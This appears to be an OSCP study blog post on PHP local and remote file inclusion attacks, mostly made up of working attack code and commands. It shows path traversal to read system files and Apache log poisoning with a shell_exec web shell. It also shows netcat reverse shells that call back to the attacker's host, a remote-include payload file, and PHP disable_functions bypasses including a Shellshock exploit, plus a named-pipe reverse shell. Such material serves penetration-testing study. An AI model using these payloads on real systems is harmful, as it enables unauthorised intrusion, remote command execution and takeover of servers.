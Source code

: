 ```yaml
---
title:  "LFI and RFI"
date:   2018-03-26 03:22:33 +0800
categories: OSCP
classes:
  - landing
header:
  teaser: /assets/img/oscp-teaser.jpg
---
```


LFI happens when an PHP page explicitly calls include function to embed another PHP page, which can be controlled by the attacker.
For example, addguestbook.php below include another PHP page that can be chosen depending on the language input:
```php
$lang = $_GET['LANG'];
include( $lang . '.php' );
```
Because the LANG field can be controlled, the attacker can put in the path to a local or remote file.

## 1. Local file inclusion (LFI)

### a. Reading arbitrary files
Windows hosts file:
`http://10.11.23.188/addguestbook.php?LANG=../../windows/system32/drivers/etc/hosts%00`

### b. Contaminating apache log file and executing it
Use netcat to connect to the server and contaminate `C:/xampp/apache/logs/access.log` file:
```
root@kali:~# nc -v 10.11.23.188 80
10.11.23.188: inverse host lookup failed: Unknown host
(UNKNOWN) [10.11.23.188] 80 (http) open
 <?php echo shell_exec($_GET['cmd']);?> 
^C
```
After contamination, the access.log file on the serve is like this:
>10.11.0.105 - - [11/Mar/2018:11:24:17 -0400] "GET /addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=ipconfig HTTP/1.1" 200 369
>10.11.0.105 - - [11/Mar/2018:11:24:48 -0400] "<?php echo shell_exec($_GET['cmd']);?> " 400 366

Display the access.log file to execute the command:
`http://10.11.23.188/addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=ipconfig`

### c. Transferring netcat and obtaining reverse shell
Kali:
```
mkdir /tftp 
atftpd --daemon --port 69 /tftp 
cp /usr/share/windows-binaries/nc.exe /tftp/ 
```
Windows:
```
tftp -i 10.11.0.105 get nc.exe
nc.exe -e cmd.exe 10.11.0.105 4444
```
Kali:
```
nc -lvp 4444
```
Access this URL to open the shell
`http://10.11.23.188/addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=nc.exe%20-e%20cmd.exe%2010.11.0.105%204444`
Note:
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```
is used to get the TTY shell

## 2. Remote file inclusion (RFI)
Executing a command via a remote php page:
`http://10.11.23.188/addguestbook.php?LANG=http://10.11.0.105:31/evil.txt%00`

Content of `/var/www/html/evil.txt`:
```php
<?php echo shell_exec("nc.exe 10.11.0.105 4444 -e cmd.exe") ?>
```
Most modern php configuration disallows remote file includes of http URIs. For example: `xampp/apache/bin/php.ini`
```ini
allow_url_fopen = Off
allow_url_include = Off
```
## 3. Bypass PHP disable_functions
The server admin can disable PHP command execution to enhance the security. In that case, we have to bypass it so that our LFI/RFI attack is meaningful.
### a. Use PHP code to download file and list directory
```php
function listDir($dir) {
    if ($handle = opendir($dir)) {
        while (false !== ($entry = readdir($handle))) {
            if ($entry != "." && $entry != "..")
                echo "$entry<br>";
        }
        closedir($handle);
    }
}
function downloadFile($url, $path) {
    unlink($path);
    $file = fopen ($url, 'rb');
    if ($file) {
        $newf = fopen ($path, 'wb');
        if ($newf) {
            while(!feof($file))
                fwrite($newf, fread($file, 1024 * 8), 1024 * 8);
            fclose($file);
        }
        fclose($file);
    }
}
```
### b. PHP 4.2.0+, PHP 5: pcntl_exec
```php
<?php
$cmd = @$_REQUEST[cmd];
if(function_exists('pcntl_exec'))
    die('pcntl not found');

$cmd = $cmd."&pkill -9 bash >out";
pcntl_exec("/bin/bash", $cmd);
echo file_get_contents("out");        
?>
```
### c. PHP 5.2.3: Win32std ext Protections Bypass
```php
<?php
if (!extension_loaded("win32std")) die("win32std extension required!");
system("cmd.exe"); //just to be sure that protections work well
win_shell_execute("..\\..\\..\\..\\windows\\system32\\cmd.exe");
?>
```
### d. PHP 5.x: Shellshock
```php
<?php
function shellshock($cmd) { // Execute a command via CVE-2014-6271 @ mail.c:283
    if(strstr(readlink("/bin/sh"), "bash") != FALSE) {
        $tmp = tempnam(".","data");
        putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
        mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actually send any mail
    }
    else return "Not vuln (not bash)";
    $output = @file_get_contents($tmp);
    @unlink($tmp);
    if($output != "") return $output;
    else return "No output, or not vuln.";
}
?>
```
## 4. Deal with missing -e option in netcat
Certain nc version does not provide -e option for us to open a shell session. Workaround by using `/bin/sh` as below:
```php
<?php
function reverse_shell() {
    echo "Disabled functions: " . ini_get('disable_functions')."\n";
    unlink("/tmp/backpipe");
    echo shellshock("mknod /tmp/backpipe p ");
    echo shellshock("/bin/sh -c '/bin/sh 0</tmp/backpipe | nc 10.11.0.105 4444 1>/tmp/backpipe'");
}
?>
```

**References:**

LFI:
- http://resources.infosecinstitute.com/local-file-inclusion-code-execution/
- https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/
- https://www.sunnyhoi.com/how-to-hack-a-website-using-local-file-inclusion-lfi/

TTY:
- http://pentestmonkey.net/blog/post-exploitation-without-a-tty
- https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

Reverse shell:
- https://highon.coffee/blog/reverse-shell-cheat-sheet/
- https://netsec.ws/?p=331

PHP disable_functions
- http://blog.safebuff.com/2016/05/06/disable-functions-bypass/

Netcat missing -e
- https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/

